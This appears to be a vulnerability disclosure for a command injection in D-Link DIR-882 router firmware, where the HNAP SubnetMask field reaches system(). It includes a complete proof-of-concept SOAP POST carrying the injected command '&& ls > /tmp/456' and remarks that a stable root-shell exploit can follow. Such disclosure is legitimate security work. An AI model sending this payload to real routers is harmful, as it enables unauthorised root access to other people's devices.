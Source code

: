 # D-link DIR882A1_FW130B06.bin Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version

![image-20220405112631846](img/image-20220405112631846.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220405114315248](img/image-20220405114315248.png)

The program obtains the content through the / setnetworksettings / SubnetMask parameter and passes it to v7

![image-20220405114338908](img/image-20220405114338908.png)

Then V7 formats the matched content into v39 through the sprintf function, and finally executes the content in v39 through the system function. There is a command injection vulnerability

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR882A1_FW130B06.bin
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SetNetworkSettings xmlns="http://purenetworks.com/HNAP1/">
	<IPAddress>192.168.5.1</IPAddress>
	<SubnetMask>&& ls > /tmp/456 &&echo 1</SubnetMask>
	<DeviceName>dlinkrouter</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

The reproduction results are as follows:

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell
